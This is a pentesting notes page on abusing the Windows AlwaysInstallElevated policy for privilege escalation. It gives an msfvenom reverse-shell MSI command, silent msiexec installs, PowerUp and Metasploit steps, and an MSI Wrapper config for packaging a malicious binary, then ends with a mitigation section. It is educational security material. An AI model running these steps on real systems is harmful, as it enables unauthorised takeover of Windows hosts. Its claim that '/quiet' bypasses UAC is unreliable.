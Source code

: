 # AlwaysInstallElevated

Windows features that allow us to install `.msi` packages as **administrators** (more precisely as **NT AUTHORITY\SYSTEM**).

## Theory

MSI files are package files used to install applications. These files are executed with the permissions of the user attempting to install them. Windows allows these installers to run with elevated (i.e., administrator) privileges. If this is the case, we can generate a malicious MSI file containing a reverse shell. The problem is that there are two registry settings that must be enabled for this to work.

## Practice

### Verification

{% tabs %}
{% tab title="Manual" %}
The value of "AlwaysInstallElevated" must be set to 1 for both the local machine.

* "0x1" means 1.
* "0x0" means 0.

```shell
reg query HKLM\Software\Policies\Microsoft\Windows\Installer # Debe tener 1
reg query HKCU\Software\Policies\Microsoft\Windows\Installer # Debe tener 1
```

If any of them is missing or disabled, the exploit will not work.
{% endtab %}

{% tab title="Automatic" %}
### winPEAS

```shell
winPEAS.exe quiet systeminfo
```

![](../../../../.gitbook/assets/alwaysinstallelevated\_winpeas.png)

### PowerUp

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

![](../../../../.gitbook/assets/alwaysinstallelevated\_powerup.png)

If the "Checking for AlwaysInstallElevated" part tells us that we can abuse the "Write-UserAddMSI" function, then we can escalate privileges.
{% endtab %}
{% endtabs %}

### Privilege Escalation

{% tabs %}
{% tab title="msfvenom" %}
We generate a reverse shell of type msi with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f msi -o reverse.msi
```

After uploading the .msi to the compromised machine and listening for the port on which we will receive our reverse shell, we have to install the package:

```shell
msiexec /quiet /qn /i <PATH>\reverse.msi
msiexec /norestart /quiet /qn /i <PATH>\reverse.msi 
```

Flags:

* `/quiet` will bypass User Account Control (UAC).
* `/qn` specifies not to use a GUI.
* `/i` is to perform a regular installation of the package.
{% endtab %}

{% tab title="PowerUp" %}
{% hint style="danger" %}
With PowerUp, we need to have an RDP session.
{% endhint %}

We import the PowerUp module and then run the Write-UserAddMSI function to generate a `.msi` file that allows us to create a user:

```powershell
powershell -ep bypass
. .\PowerUp.ps1

Write-UserAddMSI
```

The previous command will create an executable that is configured with graphical interface. We run it, configure the user, password and the Administrators group.

![](../../../../.gitbook/assets/alwaysinstallelevated\_powerup\_msi.png)
{% endtab %}

{% tab title="Metasploit" %}
```shell
background
use exploit/windows/local/always_install_elevated
set SESSION <SESSION_NUM>
run
```
{% endtab %}

{% tab title="Manual" %}
We can use the [MSI Wrapper](https://www.exemsi.com) tool.

This program will convert executable installers (.exe) into MSI packages. So, we will have to create a malicious binary, then use the program to convert it into an MSI package and, finally, install it.

### Practice

The first thing we have to do is to generate a malicious binary.

Then, we are going to have to edit the configuration for the MSI Wrapper, which is as follows:

```xml
<MsiWrapper>
  <Installer>
    <IconFile Detect="executable" Value="" />
    <Output FileName="<OUTPUT_PATH>\shell.msi" />
    <InstallPrivileges Value="Elevated" />
    <PerUser Value="yes" />
    <ElevateExecutable Value="always" />
    <UpgradeCode Value="{SSB51239-4A44-2760-3621-63CE643S42E0}" />
    <ProductId Value="" />
    <Registration Value="None" />
    <Manufacturer Detect="" Value="Test Company" />
    <ProductVersion Detect="executable" Value="0.0.0.1" />
    <ProductName Detect="" Value="Test" />
    <Comments Detect="executable" Value="" />
    <Contact Detect="" Value="" />
    <HelpLink Detect="" Value="" />
    <UpdateLink Detect="" Value="" />
    <AboutLink Detect="" Value="" />
  </Installer>
  <WrappedInstaller>
    <Executable FileName="<PATH>\<BINARY>.exe" SuccessCodes="" Impersonate="no" IncludeFiles="no" CompressionLevel="Max" />
    <ApplicationId Value="" />
    <Install>
      <Arguments Value="">
        <UILevelNone Value="" />
        <UILevelBasic Value="" />
        <UILevelReduced Value="" />
        <UILevelFull Value="" />
      </Arguments>
      <RunBeforeInstall Value="" />
      <RunAfterInstall Value="" />
    </Install>
    <Uninstall>
      <Arguments Value="">
        <UILevelNone Value="" />
        <UILevelBasic Value="" />
        <UILevelReduced Value="" />
        <UILevelFull Value="" />
      </Arguments>
    </Uninstall>
  </WrappedInstaller>
</MsiWrapper>
```

When we finish editing, we will open the program and load the configuration:

![](<../../../../.gitbook/assets/msi\_wrapper\_load\_settings (1).png>)

As we already loaded the configuration, we can click on "Next" until the end, where we will build the .msi:

![](../../../../.gitbook/assets/msi\_wrapper\_build.png)

Finally, we transfer the MSI package and install it:

```shell
msiexec /quiet /qn /i <PATH>\reverse.msi
msiexec /norestart /quiet /qn /i <PATH>\reverse.msi 
```
{% endtab %}
{% endtabs %}

### Mitigation

This problem can be mitigated by disabling the two Local Group Policy settings by removing the **Always install with elevated privileges** option from the following paths:

* Computer Configuration\Administrative Templates\Windows Components\Windows Installer
* User Configuration\Administrative Templates\Windows Components\Windows Installer

![](../../../../.gitbook/assets/alwaysinstallelevated\_mitigation.png)

